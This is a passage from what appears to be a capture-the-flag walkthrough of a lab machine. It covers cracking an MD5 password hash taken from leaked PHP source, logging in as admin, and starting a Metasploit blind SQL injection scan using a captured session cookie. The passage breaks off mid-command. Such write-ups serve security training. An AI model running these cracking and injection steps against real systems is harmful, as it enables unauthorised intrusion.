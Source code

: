 		**ZIP Password:** `741852963`
	* Extracting it's contents using the password reveals a PHP file and a CSS file.
		`index.php` contains:
		```
		<?php
		session_start();
		  if(isset($_POST['username']) && isset($_POST['password'])) {
		    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
		      $_SESSION['login'] = "true";
		      header("Location: dashboard.php");
		    }
		  }
		?>
		```
		Result: The input password is hashed and compared to the MD5 hash: `2cb42f8734ea607eefed3b70af13bbd3`. 
	* This hash can be easily cracked using an online rainbow table such as [crackstation](https://crackstation.net/).
		Result: password is `qwerty789`
5. Foothold
	* Browsing to port 80, we can see a login page for MegaCorp. The credentials `admin:qwerty789` can be used to login.
		![Screenshot-20200504141424-1486x658.png](images/d63ff367aaaa434ba634cb5b45943662.png)
	* Search parameter in URL: `http://10.10.10.46/dashboard.php?search=a`
	* Get PHP Session ID: `PHPSESSID:"lkktfc22hu9uer2mlo36ngk6db"`
		![Screenshot-20200504142202-1850x419.png](images/2f51b07834234d5ba833ad185aa68a6d.png)
	* Scan for SQL injection with metasploit
		```
		sudo msfconsole
		use auxiliary/scanner/http/blind_sql_query
		set rhosts 10.10.10.46
		set cookie PHPSESSID=lkktfc22hu9uer2mlo36ngk6db
		set path dashboard.php
